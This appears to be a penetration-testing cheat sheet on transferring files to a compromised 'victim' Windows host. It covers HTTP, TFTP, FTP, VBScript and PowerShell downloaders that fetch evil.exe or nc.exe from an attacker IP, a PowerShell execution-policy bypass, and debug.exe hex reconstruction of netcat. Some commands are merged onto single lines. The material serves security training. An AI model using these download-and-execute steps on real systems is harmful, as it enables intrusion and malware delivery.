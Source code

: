 # Uploading files to a victim

#### HTTP
+ Python:
  ```sh
  # Attacker Side
  $ python -m SimpleHTTPServer 80
  Serving HTTP on 0.0.0.0 port 80 ...

  # Victim
  wget http://192.168.100.101/exploit.exe
  ```

#### UPX
+ UPX is a portable, extendable, high-performance executable packer for several different executable formats.
+ UPX optimizes executable before uploading.


### TFTP
+ TFTP is a UDP based file transfer protocol

+ Windows operating systems up to Windows XP and 2003 contain a TFTP client, by default. In Windows 7, 2008, and above, this tool needs to be explicitly added, during installation.

+ To serve nc.exe from Kali:  
```
root@kali:~# mkdir /tftp
root@kali:~# atftpd --daemon --port 69 /tftp
root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
```
From victim:
```
C:\Users\Offsec>tftp -i 192.168.10.5 get nc.exe
Transfer successful: 59392 bytes in 16 second(s), 3712 bytes/s
```

### FTP
+ Windows operating systems contain a default FTP client that can also be used for file transfers.
+ ftp.exe is an interactive program.

+ From Kali
```
root@kali:~# apt-get update && apt-get install pure-ftpd
```
Then to set up:
```
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser pure-pw useradd offsec -u ftpuser -d /ftphome pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/ /etc/init.d/pure-ftpd restart
```


### Scripting languages
+ Can use scripting languages like VBScript and PowerShell.  

Example VBScript:

```VBScript
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Then on victim
```
C:\Users\Offsec>cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

Or on PowerShell:
```
C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1 C:\Users\Offsec> echo $url = "http://192.168.10.5/evil.exe" >>wget.ps1 C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Now able to run the script and run our file:
```
C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive - NoProfile -File wget.ps1
```

### debug.exe
+ On 32 bit Windows machine, have debug.exe utility.
+ debug.exe acts as an assembler, disassembler and a hex dumping tool.
+ The concept behind the use of debug.exe for file transfers is similar to the use of scripting languages. Use non-interactive echo commands, to write out the binary file in its hex value equivalents, and then use debug.exe to assemble the written text file into a binary file.
+ There is a 64k byte size limit to the files that can be created by debug.exe.

To get the nc.exe executable ready for tansfer:
```
root@kali:~# locate nc.exe|grep binaries /usr/share/windows-binaries/nc.exe
root@kali:~# cp /usr/share/windows-binaries/nc.exe . root@kali:~# ls -l nc.exe
-rwxr-xr-x 1 root root 59392 Apr 11 05:13 nc.exe root@kali:~# upx -9 nc.exe
Ultimate Packer for eXecutables
Copyright (C) 1996 - 2011
UPX 3.08 Markus Oberhumer, Laszlo Molnar & John Reiser Dec 12th 2011
File size Ratio Format Name -------------------- ------ ----------- -----------
59392 -> 29184 49.14% win32/pe nc.exe
Packed 1 file.
root@kali:~# ls -l nc.exe
-rwxr-xr-x 1 root root 29184 Apr 11 05:13 nc.exe
```
Now that our file is optimized and ready for transfer, we can convert the nc.exe file to a text file that can be used by debug.exe, on the victim machine, to rebuild the file from text, back to an executable.
```
root@kali:~# locate exe2bat /usr/share/windows-binaries/exe2bat.exe
root@kali:~# cp /usr/share/windows-binaries/exe2bat.exe . root@kali:~# wine exe2bat.exe nc.exe nc.txt
Finished: nc.exe > nc.txt
root@kali:~# head nc.txt
echo n 1.dll >123.hex
echo e 0100 >>123.hex
echo 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 00 00 00 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 206d6f64652e0d0d0a2400000000000000 >>123.hex
echo e 0180 >>123.hex
echo 50 45 00 00 4c 01 04 00 ee 7e 66 51 00 00 00 00 00 00 00 00 e0 00 0f 03 0b 01 02 16 00 98 00 00 00 4c 00 00 00 00 00 00 00 4c 00 00 00 10 00 00 00 c0 00 00 00 00 40 00 00 10 00 00 00 02 00 00 04 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 30 01 00 00 04 00 00 5a 93 01 00 03 00 00 00 00 00 10 00 00 10 00 00 00 00 10 00 00 10 00 0000000000100000000000000000000000 >>123.hex
echo e 0200 >>123.hex
...
```
We now have a file called nc.txt, which can simply be copied and pasted, in the remote shell. Notice how each command executed is non interactive, and simply echo’s a bunch of hex strings, into a file. Towards the end of nc.txt, we can see the commands that rebuild the nc.exe executable, on the target machine:
```
...
echo e e900 >>123.hex echo >>123.hex
echo r cx >>123.hex echo e800 >>123.hex echo w >>123.hex
echo q >>123.hex debug<123.hex
copy 1.dll nc.exe
```
